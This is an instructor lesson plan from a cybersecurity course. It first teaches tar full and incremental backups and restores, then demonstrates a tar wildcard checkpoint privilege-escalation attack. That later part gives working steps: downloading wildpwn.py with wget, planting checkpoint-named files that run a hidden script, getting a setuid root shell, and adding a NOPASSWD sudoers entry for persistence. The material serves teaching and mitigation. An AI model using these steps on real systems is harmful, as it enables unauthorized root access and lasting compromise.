        -rwxr-xr-x instructor/instructor         0 2019-12-20 13:05 emergency/.gitkeep
        -rw-r--r-- instructor/instructor     10240 2019-12-28 17:37 emergency/emerg_back_sun.tar
        -rw-r--r-- instructor/instructor        36 2019-12-28 17:37 emergency/emerg_backup.snar
        -rw-r--r-- instructor/instructor         0 2019-12-28 17:35 emergency/
        -rwxr-xr-x instructor/instructor       689 2019-12-28 17:30 emergency/admit/file1.txt
        -rwxr-xr-x instructor/instructor       341 2019-12-28 17:30 emergency/admit/file2.txt
        -rwxr-xr-x instructor/instructor       661 2019-12-28 17:30 emergency/admit/file3.txt
        -rwxr-xr-x instructor/instructor       840 2019-12-28 17:30 emergency/admit/file4.txt
        -rwxr-xr-x instructor/instructor       341 2019-12-28 17:35 emergency/discharge/file2.txt
        ```

        - For each directory in the `emerg_back_sun.tar` file, this command will list the files in the directory at the time the archive was created for (as indicated by the `t` option).

    - Using the  `--incremental` option will display one of the following next to each file:

        - `Y` indicates that the file is contained in the `emerg_back_sun.tar` archive.

        - `N` indicates that the file was present in the directory at the time the archive was made, but was not added to the `emerg_back_sun.tar` archive because it has not changed since the last backup.

        - `D` indicates the file is a directory.

    - Pause and see if there are any question before proceeding.

6. Now, we will simulate the Monday and Tuesday incremental backups that were run by the system admin team.

    - First, we will simulate the addition of a new file to the `admit` directory. This change was made on Monday, the day after the level 0 backup was created.

   - Run the command to add a new file in the `emergency/admit` directory:

     - `echo "New file for CJones" > emergency/admit/file6`

   - Run the commands to create the Monday incremental backup, list_the contents, and display the output from the command with the added file.

      - `tar cvvWf emerg_back_mon.tar --listed-incremental=emerg_backup.snar emergency`

      - `tar tvvf emerg_back_mon.tar --incremental`

        ```
        drwxr-xr-x  instructor/instructor   29  2019-07-04  03:28   emergency/admit/

        N file1.txt
        N file3.txt
        N file4.txt
        N file5.txt
        Y file6.txt       
        ```

    - Point out the following:

      - `--level=0` option is not used in the command. `tar` sees this as an incremental backup, not a full backup, because a snapshot file has already been created.

      - Only `file6` was added to the Monday `emerg_back_mon.tar` file. This keeps the `tar` file very small.

7. Now we will simulate the updating of an existing file in the `discharge` directory. This change was made on Tuesday.

    - Run the following commands: 

        - `echo "Update MSmith" >> emergency/discharge/file2`

        - `tar cvvWf emerg_back_tues.tar --listed-incremental=emerg_backup.snar emergency`

        - `tar tvvf emerg_back_tues.tar --incremental`

    - Output should look like:

        ```
          drwxr-xr-x root/root        19 2019-12-28 17:46 emergency/discharge/
          Y file2
          N file2.txt
        ```

      - Point out that only the updated file is added to the `emerg_back_tues.tar` file.

    - Review the incremental files that have been created in the `~/Documents/epscript` directory.

      - Run `ls -l *.tar`

      - Display the output:

          ```
          emerg_back_sun.tar
          emerg_back_mon.tar
          emerg_back_tues.tar
          ```

    - Pause and see if there are any question before proceeding.

8. Simulate Wednesday's ransomware attack on the hospital by removing the `emergency` directory.  

    - Run the following commands:

        - `rm -r emergency`  

        - `ls`

9. Now we will restore the files that were lost in the attack.  We can restore the directory by first extracting the files from the full backup from Sunday, followed by the incremental backups from Monday and Tuesday.

    - Before running it, review the following `tar` command that will extract the files from the archives:

        - `tar xvvf emerg_back_sun.tar --incremental`

    - Break down the syntax:

        - `x`: extracts the files from the archive.
        - `vv`: displays a full file specification.
        - `f`: indicated the archive file.  This option must be present.
        - `emerg_back_sun.tar`: indicates the archive to use.
        - `--incremental`: indicates this an  incremental backup.

    - Point out that the snapshot file is not needed in the command since all the metadata, or, information necessary for extraction, is stored in the archive.

10. In your `~/Documents/epscript` directory, run the following commands to restore the `emergency` directory:

    - First, apply the Sunday level 0 backup.

        - Run `tar xvvf emerg_back_sun.tar --incremental`

    - Ask students: What files are in the emergency directory now?

      - Answer: The directory contains only the original files in the `admit` and `discharge` directories.

    - Run the `ls` command to display the current files in the `emergency` directory and all of its subdirectories:

      - `ls -R emergency`

    - Next, apply Monday's incremental backup.

       - Run `tar xvvf emerg_back_mon.tar --incremental`

    - Ask students: What files are in the `emergency` directory now?

       - Answer: The directory now also contains the `file6` file we added on Monday.

       - Run `ls -R emergency` to confirm.

    - Explain that we'll display the `emergency/discharge/file2` file before applying the Tuesday incremental backup. This way, we can see the state of the file before we update with Tuesday's file.  

      - Run `cat emergency/discharge/file2`

    - Next, we'll apply Tuesday's incremental backup.

      - Run `tar xvvf emerg_back_tues.tar --incremental`

    - Ask students: What is the state of the file now?

      - Answer:  The `file2` file contains the line we added for the Tuesday incremental backup.

    - Run `cat emergency/discharge/file2` to display the new output.

The demonstration is complete, we have restored the files in the `emergency` directory to the state before the malware attack.   

Ask students if they have any questions before moving on.

### 06. Group Do: Restoring Data with Incremental Backups (0:20)

Explain the following to students:

- In this activity, you will continue as a junior administrator at _Rezifp Pharma Inc_ where the E-Prescription.

- Your organization has just adopted a new backup policy and you are responsible for validating the new process.

- In this simulation, you will perform two tests:

  - Restore patient files that were deleted during an attack on Sunday.
  - Create two new files and perform an incremental backup on Monday to ensure the new files were properly backed up.

Emphasize that testing backups and backup processes are critically important. The last thing you want is a disaster to strike only to discover that a backup or backup process doesn't work.

Send students the following file:

- [Activity File: Restoring Data with Incremental Backups](Activities/06_Incremental_Restore/Unsolved/README.md)

### 07. Instructor Review: Restoring Data with Incremental Backups  (0:10)

:bar_chart: Run a comprehension check poll before reviewing the activity. 

The goal of this activity was to test a backup to ensure that a system can be restored in the event of a natural disaster or cyber attack.

Completing this activity required the following steps:

  1. Restore patient files that were deleted during an attack on Sunday.
  2. Create two new files and perform an incremental backup on Monday to ensure the new files were properly backed up.

Completing this activity required the following steps: 

- List and verify the existing files in the `testenvir` directory.
- Create a level 0 backup of the entire `testenvir` directory.
- Simulate a cyber attack by deleting the `patient` directory from the `testenvir` parent folder.
- Verify the `patient` directory is missing.
- Restore the missing `patient` directory from the incremental backup.
- List and verify the `patient` directory to verify the restoration was successful.
- Simulate activity by simulating the creation of two new files in the `patient` directory.
- Create an incremental backup on Monday and verify that the new `patient` files have been properly backed up.

Send students the following file:

- [Solution Guide: Restoring Data with Incremental Backups](Activities/06_Incremental_Restore/Solved/README.md)

#### Walkthrough

1. Move into the `~/Documents/epscript/testenvir` directory and list the contents.

    - Run `cd ~/Documents/epscript/testenvir`

    - Run `ls -l`

     Notice the `doctor`, `patient`, and `treatment` directories.

    ```
    total 12
    drwxr-xr-x 2 sysadmin sysadmin 4096 Jul 14 10:14 doctor
    drwxr-xr-x 2 sysadmin sysadmin 4096 Jul 14 10:14 patient
    drwxr-xr-x 3 sysadmin sysadmin 4096 Jul 14 10:14 treatment
    ```

2. In your `~/Documents/epscript` directory, create the level 0 backup of the `testenvir` directory, which contains the `doctor`, `patient`, and `treatment` directories.

   - Move back into the `epscript` directory:

      - Run `cd ../`

   - Create the level 0 backup of the `testenvir` directory by running:

      - Run `tar cvvWf epscript_back_sun.tar --listed-incremental=epscript_backup.snar --level=0 testenvir`

    - Your very verbose output should look similar to this:

      ```
      tar: testenvir: Directory is new
      tar: testenvir/doctor: Directory is new
      tar: testenvir/patient: Directory is new
      tar: testenvir/treatment: Directory is new
      tar: testenvir/treatment/backup: Directory is new
      drwxr-xr-x sysadmin/sysadmin 0 2020-07-14 10:14 testenvir/
      drwxr-xr-x sysadmin/sysadmin 0 2020-07-14 10:14 testenvir/doctor/
      drwxr-xr-x sysadmin/sysadmin 0 2020-07-14 10:14 testenvir/patient/
      drwxr-xr-x sysadmin/sysadmin 0 2020-07-14 10:14 testenvir/treatment/
      ```

3. We can view and verify the contents of the **level 0** backup by using `tar` as follows:

   - Run `tar tvvf epscript_back_sun.tar --incremental | less`
     
       - Tap the `tab` button on the keyboard to advance the screen one page at a time. 
       - Tap the `enter` key to advance one line at a time.

   - Status of the files in the backup should look similar to the following:

      ```
      drwxr-xr-x sysadmin/sysadmin 29 2020-07-14 10:14 testenvir/
      D doctor
      D patient
      D treatment

      drwxr-xr-x sysadmin/sysadmin 325 2020-07-14 10:14 testenvir/doctor/
      Y doctors.1.csv
      Y doctors.10.csv
      Y doctors.11.csv

      ...
      ...

      drwxr-xr-x sysadmin/sysadmin 346 2020-07-14 10:14 testenvir/patient/
      Y patients.1.csv
      Y patients.10.csv
      Y patients.11.csv

      ...
      ...

      drwxr-xr-x sysadmin/sysadmin 396 2020-07-14 10:14 testenvir/treatment/
      D backup
      Y treatments.1.csv
      Y treatments.10.csv
      Y treatments.11.csv

      ...
      ...
      ```

    - What is the status of the files in the backup?

     * **`D`** indicates directories.

     * **`Y`** indicates that these file are contained in the `epscript_back_sun.tar` archive.

4. Simulate a natural disaster or cyber attack by removing the `patient` directory.

    - From the `~/Documents/epscript` directory:

      - Run `rm -r testenvir/patient/`

    - Verify that the `patient` directory is removed:

       - Run `ls -l testenvir/`

    - Your output should look similar to the following. Notice that the `patient` directory is missing.

      ```
      total 8
      drwxr-xr-x 2 sysadmin sysadmin 4096 Jul 14 10:14 doctor
      drwxr-xr-x 3 sysadmin sysadmin 4096 Jul 14 10:14 treatment
      ```

5. Restore the missing patient directory from the `epscript_back_sun.tar` backup to the `~/Documents/epscript/testenvir/patient/` directory.

   - Make sure your in the `epscript` directory:

     - Run `cd ~/Documents/epscript`

   - Restore the missing **patient** directory:

     - Run `tar xvvf epscript_back_sun.tar -C ~/Documents/epscript/ testenvir/patient/`

   - Your very verbose output should look similar to the following:

     ```
     block 5: drwxr-xr-x sysadmin/sysadmin 346 2020-07-14 10:14 testenvir/patient/
     block 341: -rw-r--r-- sysadmin/sysadmin 6329 2020-07-14 10:14 testenvir/patient/patients.1.csv
     block 355: -rw-r--r-- sysadmin/sysadmin 6236 2020-07-14 10:14 testenvir/patient/patients.10.csv
     block 369: -rw-r--r-- sysadmin/sysadmin 6250 2020-07-14 10:14 testenvir/patient/patients.11.csv
     block 383: -rw-r--r-- sysadmin/sysadmin 6311 2020-07-14 10:14 testenvir/patient/patients.12.csv
     ```

   - Verify that the files have been added to the `testenvir/patient` directory successfully.

     - Run `ls -l testenvir/`

   - Your output should look similar to the following:

      ```  
      total 12
      drwxr-xr-x 2 sysadmin sysadmin 4096 Jul 14 10:14 doctor
      drwxr-xr-x 2 sysadmin sysadmin 4096 Jul 14 10:14 patient
      drwxr-xr-x 3 sysadmin sysadmin 4096 Jul 14 10:14 treatment
      ```

     - The missing `patient` directory has been properly restored from the archive.

6. Before we create an incremental backup, we'll create some files in the `patient` directory:

    - Make sure your in the `cd ~/Documents/epscript/testenvir/patient/` directory.

      - Run `cd ~/Documents/epscript/testenvir/patient/`

    - Create a couple of arbitrary files:

      - Run `touch patient.0a.txt patient.0b.txt`

    - Verify that the files have been added:

      - Run `ls -l`

    - Output should look similar to the following. Notice the two new files `patient.0a.txt` and `patient.0b.txt` have been successfully created:

      ```
      total 284
      -rw-r--r-- 1 sysadmin sysadmin      0 Aug 13 12:27 patient.0a.txt
      -rw-r--r-- 1 sysadmin sysadmin      0 Aug 13 12:27 patient.0b.txt
      -rw-r--r-- 1 sysadmin sysadmin   6236 Jul 14 10:14 patients.10.csv
      -rw-r--r-- 1 sysadmin sysadmin   6250 Jul 14 10:14 patients.11.csv
      ```

7. Assume it's Monday. Now, we'll create an incremental backup that will include our newly created patient documents as follows:

   - Change back to the `~/Documents/epscript` directory:

     - Run `cd ~/Documents/epscript`

   - Create an incremental backup for Monday as follows:  

     - Run `tar cvvWf epscript_back_mon.tar --listed-incremental=epscript_backup.snar testenvir` 

   - List the contents of the `epscript_back_mon.tar` incremental backup and verify that the new files have been archived.

      - Run `tar tvvf epscript_back_mon.tar --incremental | less`

      - Your output should look similar to the following. Notice that our new patient files `patient.0a.txt` and `patient.0b.txt` have been successfully archived under the `testenvir/patient/` directory:

        ```
        drwxr-xr-x sysadmin/sysadmin 29 2020-08-13 12:05 testenvir/
        D doctor
        D patient
        D treatment


        drwxr-xr-x sysadmin/sysadmin 325 2020-07-14 10:14 testenvir/doctor/
        N doctors.1.csv
        N doctors.10.csv
        N doctors.11.csv
        N doctors.12.csv

        ...
        ...

        drwxr-xr-x sysadmin/sysadmin 378 2020-08-13 12:27 testenvir/patient/
        Y patient.0a.txt
        Y patient.0b.txt
        Y patients.1.csv
        Y patients.10.csv
        Y patients.11.csv

        ...
        ...

        drwxr-xr-x sysadmin/sysadmin 396 2020-07-14 10:14 testenvir/treatment/
        D backup
        N treatments.1.csv
        N treatments.10.csv
        N treatments.11.csv
        N treatments.12.csv

        ...
        ...
        ```

    - What is the status of the files in the incremental backup?

     - `D`: indicates directories.

     - `N`: indicates that the file was present in the directory at the time the archive was made. However, it was not added to the `epscript_back_mon.tar` archive because it had not changed since the last backup. 

     - `Y`: indicates that the file is contained in the `epscript_back_mon.tar` archive.

#### Bonus Review Questions

1. What is the difference between a `full` and `incremental` backup?

    - A full backup saves every file on a hard drive. 

    - An incremental backup only saves the data that has changed since the last full backup.

2. If you have a backup schedule of Monday, Tuesday, Wednesday, Thursday and Friday:  

    - On what day would you schedule a level 0 backup to be done?

        - Monday

    - In what order should the backups be applied to restore a system that was completely lost after an attack?

        - Start with Monday, end with Friday. 

3. What command do you use to create a level 0 backup of `archive/home/user1`? 
    
    - `tar cvvWf backup.tar --listed-incremental=backup.snar --level 0 archive/home/user1`

4. What command would you use to list the contents of an incremental backup?

    - `tar tvvf backup.tar --incremental`

5. After listing the contents of an incremental backup, what do the following letters indicate:

    - `Y` indicates that the file is contained in the `backup.tar` archive.

    - `N` indicates that the file was present in the directory at the time the archive was made, but was not added to the `backup.tar` archive because it has not changed since the last backup.

    - `D` indicates the file is a directory.

Address any questions before moving to the break. 

### 08. Break (0:15)

### 09. Instructor Do: Exploiting the `tar` Command with the Checkpoint and Wildcard Options (0:20)

Remind students that in the previous sections, we learned how `tar` can be used to create full and incremental backups, and how we can extract files and directories from these backups.

Explain that in this last section, we’ll see how the `tar` command can be used by attackers to plant malware on a system.

- This involves a combination of using the wildcard character and a feature known as checkpoints with `tar`.

- Using the wildcard character specifies all the files in a directory without having to type each filename.

- Wildcard characters in shell commands are expanded to matching filenames before a command is actually executed.

Explain that we’ll first look at how wildcards are used with `tar`.

#### Using Wildcards with `tar`

Remind students that we've used the wildcard character `*` before when creating an archive.

- Rather than typing out each specific file that needs to be included in a full backup, sysadmins will use the wildcard option to indicate that they want to back up an entire directory.

- While using the wildcard is not necessary, it is common practice among system administrators.

For example, if we have a directory called `Documents` that contains the nine files listed below, we can run the following command to create an archive that contains all of them, without having to type the name of each individual file.

-  Explain (or *optionally* run) the following steps:

    - `cd ~/Documents/ExploitTar`  navigates to a folder that we want to archive.

    - `ls`: displays its contents

      ```
       f1   f10   f2   f3   f4   f5   f6   f7   f8   f9  'important docs'
      ```

    - `tar cvf archive.tar ./*`: archives all files in the current directory using an asterisk `*`, the wildcard character.

    - `ls`: again, displays the new `archive.tar` file:

      ```
      archive.tar   f10   f3   f5   f7   f9
      f1            f2    f4   f6   f8  'important docs'
      ```

This is important to understand when exploiting `tar` and will tie into the next topic we cover.

#### Checkpoints

Next, introduce the checkpoint option by covering the following:

- A **checkpoint** is an action assigned to take place at a specific stage of a backup or restoration.

- The actions and their frequency (the point at which the action is taken) will vary based on the circumstance. Typically, the frequency relies on reaching *n* number of files in a backup or restoration.  

- Offer the following examples of checkpoints:

    - A checkpoint is scheduled to run once the backup reaches 1000 files. At this point, the checkpoint triggers the backup to pause and output a message to the terminal that displays the amount of remaining disk space.

    - When restoring files from a remote site, a message will print the number of bytes transferred every 5000 files.

- Including checkpoints in our back-up and restoration process is a best practice because it allows administrators to avoid serious issues, such as accidentally using up all of the space on the backup server, or slowing down the network—both of which can damage data availability.

When using checkpoints, we use two checkpoint commands. The first command indicates when the action will occur. The second command indicates what the action is.

- `--checkpoint=1000` and  `--checkpoint-action=du`

    - `--checkpoint=1000` indicates how often the checkpoint occurs. At every thousandth file, an action will take place.

    - `--checkpoint-action=du` indicates the action that will take place. `du` indicates that the action is to display how much disk space is left on the machine.

- The general syntax of checkpoint commands:

    - `--checkpoint=[n]` 

    - `--checkpoint-action=[ACTION]`

Explain the general process a malicious hacker uses to exploit a system vulnerability:

- In our previous Linux module, we learned how system administrators must harden a system against attacks.

- Once attackers find a weakness in a system, they find ways to exploit it by changing existing code or uploading and  running their own code, also known as **arbitrary command execution**, or **ACE**.

- ACE vulnerabilities are extremely dangerous, because attackers can exploit them to accomplish almost anything. In particular, attackers often use them to achieve their primary goal of gaining root privileges on a system, which allows them to completely compromise the machine.

- For our current example, attackers have discovered how to use the `tar` checkpoint option with a wildcard to plant malicious code on a system, which they can later run to gain full root privileges on the machine.

#### Using Checkpoints and Wildcards to Exploit a System

Explain how malicious hackers can exploit `tar` by covering the following steps:

- An attacker will gain access to the system by impersonating a normal user. This can happen if a hacker is, for example, able to get that user’s password.

    - A normal user cannot access sensitive files, open network connections, or perform other actions that require root privileges.

    - But a normal user should typically be able to download and execute files from the internet.

    - An attacker can exploit this by downloading malicious files, which the attacker can execute to compromise the system.

- Today, we’ll see how malicious attackers can use `wildpwn.py`, a Python file they can simply download from the web, to exploit `tar` and gain root privileges.

    - Downloading and running `wildpwn.py` will plant malicious files in that normal user’s home directory.

    - Specifically, `wildpwn.py` will plant three malicious files on the system: one hidden malicious script, and two other files that are named so that they look like `tar` checkpoint commands.

- When an unsuspecting administrator-who have often have root privileges-runs the `tar` command with the wildcard option to create an archive containing this directory, `tar` will execute this malicious script.

    - The script, in turn, will use the administrator’s root privileges to create malware on the system.

    - The attacker will later be able to use this malware to drop into a root shell, granting them full root access to the system.

Assure students that it’s okay if they’re a little confused at this point. Let them know that we’ll next dive into the specifics of `wildpwn.py` to clarify the details of this exploitation.

Cover the following about `wildpwn.py`:

- When an attacker runs `wildpwn.py`, it creates three files. The attacker is able to create these files even if they only have normal user privileges. The files that are created are a malicious hidden script called `.webscript` and two files whose names appear like checkpoint commands.

- The checkpoint files will look like this:

    - `--checkpoint=1`

    - `--checkpoint-action=exec=sh .webscript`

- `--checkpoint=1` tells `tar` to execute the checkpoint action after adding the first file to the archive. In other words, these checkpoint files will cause `tar` to execute the malicious `.webscript` almost immediately.

- When an unsuspecting sysadmin runs `tar`, the system will mistakenly interpret the above filenames as checkpoint commands, and the checkpoint commands will cause `tar` to execute `.webscript`.

- If an administrator runs this command with root privileges, the malicious `.webscript` will run with root privileges as well — meaning it can do anything to the system!

- When `.webscript` is run with root privileges, it creates a malicious program that the attacker can use to open a root shell. It then creates a hidden directory, called `.cache`, and saves the malware to a hidden file in this directory, called `.cachefile`.

- Leaving the final malware in a hidden directory called `.cache`, within a hidden file called `.cachefile`, is a very subtle and stealthy deployment method. The administrator will have no idea that the file has been created, and will not see either the `.cache` directory or the `.cachefile` unless they list all files with the `-a` flag.

Reiterate that the attacker cannot simply run `.webscript` on their own, because they don’t have root privileges. They must wait for the system administrator to run it in order to later impersonate them.

Ask if students have any questions before proceeding.

#### Exploiting `tar` Demo Scenario

Now we'll use the following scenario to demonstrate how to carry out this exploit:

- An attacker has gained access to our system by stealing the password for the instructor user.

- Although for this example we will pretend that instructor user does not have root access, in your activity you will truly be working on a user without root access.

- We will be taking the role of the attacker and will use `wildpwn.py` to plant malicious files. These files will be executed when an administrator with root privileges runs the tar command.

#### Exploiting `tar` Demo 

1. Open up a terminal and run the following commands:

    - Create a new directory for this demonstration: `mkdir ~/Documents/exploit_demo`

    - Move to the `exploit_demo` directory with: 

        - `cd ~/Documents/exploit_demo`

        - This is the directory to which the attacker would download the `wildpwn.py` program.

2. Download the script with `wget`.

    - Then, run `ls -l` to display that the `wildpwn.py` program is in this directory.

    - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

    - `ls -l`

      ```
      -rw-r--r--   1 instructor  instructor   3.6K Dec 19 12:46 wildpwn.py
      ```

3. Type  `python wildpwn.py tar .` and explain that this will create both the malicious script and checkpoint files.

    - Break down the syntax:

      - `python` is used to run Python programs.
      - `wildpwn.py` is the program we’re executing.
      - `tar` tells `wildpwn.py` to create malicious files that will exploit the `tar` command. This is necessary because `wildpwn.py` can exploit other commands as well.
      - The `.` specifies that these files should be created in the current directory.

   - Run the command and display the output:

      - `python wildpwn.py tar .`
      ```  
      [!] selected payload tar

      [*] Done! Now wait for something like: archive.tar * on . Good Luck!
      ```

    - Running `wildpwn.py` has successfully planted all the files needed for an attacker to exploit the system. These malicious files will be executed as soon as an administrator creates a `tar` archive containing them.

4. The script is now listening for someone to use the tar command. Let's archive this directory to activate the script.

    - This step will display how malicious code will execute when an unsuspecting administrator runs the `tar` command with a wildcard character. 

    - Now, use `tar` with a wildcard to create an archive to generate the malicious files: 

       - Run `sudo tar cf archive.tar *`

       - Note that this command is run within the directory where `.webscript` is located. If it were run elsewhere, the backdoor would not be generated.

   - Getting this exploit to work requires the system administrator to create the archive from the same folder where `.webscript` lives. Common targets that are often archived in this way include `/tmp`, users' `~` directories, users' `Documents` directories.

5. List the contents of our directory to display that our hidden malicious program and checkpoint files have been created.

    - Run: `ls -la` and display the output:

      ```
      drwxrwxr-x 3 instructor instructor  4096 Apr 28 19:53 .
      -rw-r--r-- 1 root       root       10240 Apr 28 19:53 archive.tar
      drwxr-xr-x 2 root       root        4096 Apr 28 19:53 .cache
      -rw-rw-r-- 1 instructor instructor  3699 Apr 28 19:50 wildpwn.py
      drwxr-xr-x 5 instructor instructor  4096 Apr 28 19:49 ..
      ```

    - Review the following about this output:

      - There is a new directory called `.cache` that we will explore in just a moment.

      - The directory contained two files: `--checkpoint=1` and  `--checkpoint-action=exec=sh .webscript`

      - These are files whose names look like `tar` commands. Normal users would never use such filenames. This is something that only attackers would do.

      - The `.webscript` contained the malicious code that was planted by running the `wildpwn.py` program.

    - Ask the students what they think the file `--checkpoint-action=exec=sh .webscript` will do when interpreted as a checkpoint command.

      - **Answer:** When an administrator uses `tar` to create an archive containing this file, it will cause `tar` to run the program `.webscript` as a checkpoint command. Note that the period `.` before `webscript` indicates that it is a hidden file. It can be displayed using the `-a` switch. 

6. Move into the new `.cache` directory and list the files located inside.

    - `cd .cache`

    - `ls -la` to display the output:

      ```
      total 20
      drwxr-xr-x 2 root       root       4096 Jan  3 13:54 .
      drwxr-xr-x 8 instructor instructor 4096 Jan  6 10:50 ..
      -rwsr-xr-x 1 root       root       8392 Jan  3 13:54 .cachefile
      ```

       - There is only one file here, an executable `.cachefile`.

   - Run: `./.cachefile` to execute it.
    
    - This will  change the user prompt from `instructor` to `root`. We now have root access.


- The `.cachefile` that we ran was owned by `root`, which is why running the script is able to give us root privileges.

  - The reason the `.cachefile` is owned by the root user is because we ran the archive command with `sudo tar...` not just `tar...`. If we didn't prefix the command with `sudo`, the `.cachefile` wouldn't do anything. Specifically, it would change our user to instructor instead of `root`, which is useless for an attacker.

  - In practice, an administrator would not manually run `sudo tar ...` to back up a directory.

  - Instead, the system would run an automated backup on some set schedule, such as every Friday, and it would do this with full root privileges. This is because it needs to archive files belonging to every user, and the only user who has permissions to modify everyone's files is `root`.

- This is great for an attacker because:

  - We can trust that a good system administrator will have scheduled regular backups, so it's likely that this malicious payload files will get included in a backup.

  - The attacker simply waits for this happens.

In the next exercise, you will log in as an unprivileged user without `sudo` rights, run the exploit to generate the malicious files, and find a `.cachefile` owned by `root` that allows you to escalate privileges.

Pause and ask if there are any questions before moving on to the student activity.


### 10. Student Do: Exploiting `tar`  (0:25)

Explain the following to students:

- In this exercise, you'll play the part of a penetration tester hunting for vulnerabilities in a target system's backup procedures.

- You'll use the `wildpwn.py` tool to verify that the system's current configuration is indeed vulnerable to this kind of privilege escalation attack.

- Then, you'll research and suggest two mitigation strategies to protect the server in the future.

Remind students that this exploit relies on the fact that administrators often schedule backups to run automatically. This is often done with a tool called `cron`, which typically runs with root privileges when used to to schedule backups.

- We'll cover `cron` in more detail later this week. For now, they need only be aware that this is one of many ways to exploit a program that often runs as `root`.

Send students the following file:

- [Activity File: Exploiting `tar`](Activities/10_Exploiting_Tar/Unsolved/README.md)

**Instructor Note**: if at any point during their activity, students are confused on how to run the `wildpwn` python script, tell them the command: `python wildpwn.py tar .`.

### 11. Instructor Review: Exploiting `tar` (0:10)

:bar_chart: Run a comprehension check poll before reviewing the activity. 

The point of this exercise was to act out the `tar` exploitation and research how to harden systems against this exploit.

Completing this activity required the following steps:

- Download `wildpwn.py` using a non-`sudo` user account.
- Run the script to generate `.webscript`.
- After waiting for the backup, verify that your user can gain `sudo` access.
- Research mitigation techniques.

Send students the following file:

- [Solution Guide: Exploiting `tar`](Activities/10_Exploiting_Tar/Solved/README.md)

#### Walkthrough

1. In your VM, switch to the user `jane`, and demonstrate you do not have `sudo` privileges.

    ```
    # Password is: password
     su jane
     [sudo] password for jane:

    sudo -l
     [sudo] password for jane:
     Sorry, user jane may not run sudo on ubuntu-vm.
    ```


2. Next, we'll look for automated `tar` backup files that can be exploited. 

    ```
    cd ~/Documents

    # Run ls -l to see the archive file, jane_docs_backup.tar.
    ls -l

    -rw-r--r-- 1 root root 286720 Apr 28 18:36 jane_docs_backup.tar
    ```

3.  Despite not having root access, you can still download files with `curl` or `wget`. Use one or the other to download `wildpwn.py` to `jane`'s `~/Documents/ExploitTar` folder:


    `cd ~/Documents/ExploitTar
    wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py
    ls -al`
    ```
    drwxr-xr-x   7 jane  jane   224B Dec 12 14:24 .
    drwxr-xr-x   4 jane  jane   128B Dec 12 14:24 ..
    drwxr-xr-x   5 jane  jane   160B Dec 12 14:24 wildpwn.py
    ...
    ...
    ```

4. Run the script to generate the malicious `.webscript` and checkpoint files:

    ```
    python wildpwn.py tar .   
    ls -al
  
    10236808   0 -rw-r--r--   1 jane  jane     0B Dec 19 12:53 --checkpoint-action=exec=sh .webscript
    10236807   0 -rw-r--r--   1 jane  jane     0B Dec 19 12:53 --checkpoint=1
    10236569   8 -rw-r--r--   1 jane  jane   3.6K Dec 19 12:46 wildpwn.py
    ```

5. In this step. we  plant these malicious files in a directory that an administrator is likely to backup automatically using a `tar` command with a `*` wildcard character. 

    - `jane's` `~/Documents` directory is likely to be included in backups, so you can just wait for the automated backup to test the exploit.

    - Wait for two minutes and the automated backup should run with root privileges. Emphasize that it is a common pattern for attackers to attack by planting malware and waiting for automated backups to run a command as `root`.

    - The automated backup should have archived `jane`'s home directory, including the `~/Documents` directory. List the files in this directory to demonstrate that the `.webscript` got executed.

        ```
        ls -al ~/Documents/ExploitTar
        10236808   0 -rw-r--r--   1 jane  jane     4.0K Dec 19 12:53 .cache

        ls -al ~/Documents/ExploitTar/.cache
        10236808   0 -rw-r--r--   1 jane  jane     12.0K Dec 19 12:53 .cachefile
        ```

    - Running the backup created the directory `.cache/.cachefile`.

6. Run `.cachefile` to escalate to `root` privileges.

    ```
    cd ~/Documents/ExploitTar/.cache
    ./.cachefile
    id
    uid=0(root) gid=0(root) groups=0(root),1013(jane)
    ```

7. Now that we have `root` privileges, we can do anything you want. Particularly, we can give `jane` the ability to run commands with `sudo` by updating `/etc/sudoers`.

    ```
    `visudo`

     # User privilege specification
     root    ALL=(ALL:ALL) ALL
     jane    ALL=(ALL) NOPASSWD:ALL
    ```

8. Drop out of your `root` shell by pressing `Ctrl + D`. As `jane`, prove that you now have the ability to run commands with `sudo`.

   - As `jane`, run `sudo -l`:

    ```
    user jane may run the following commands on <hostname>:
    (ALL) NOPASSWD: ALL
    ```

  - Explain that this demonstrates how to use the `wildpwn.py` tool to escalate to `root` and do (persistent) damage.

Emphasize that the takeaway points from this exercise are not how automated backups works, but rather:

- The `tar` command is vulnerable to a privilege escalation `wildcard attack`.

- Automated backups are often abused by attackers to leverage such vulnerabilities.


Take a moment to address questions before discussing mitigation tactics.

- Explain that there are multiple ways to address such attacks. A few good options include:

     - Preventing users from downloading files from untrusted sources. This would involve enforcing stricter **permissions** on where users can save files.
     
    - Use a tool like `lynis` to scan the system for security vulnerabilities on a regular basis. This will make it more likely that we identify malicious files before they have a chance to damage the system.

### Assign Challenge

|                                     :warning: Challenge Heads-Up :warning:                                    |
|:------------------------------------------------------------------------------------------------------------:|
| Remind all students that they will need to use their local Vagrant VM installation for this week's Challenge. |
Take a moment to address questions before dismissal.

---

© 2020 Trilogy Education Services, a 2U, Inc. brand.  All Rights Reserved.
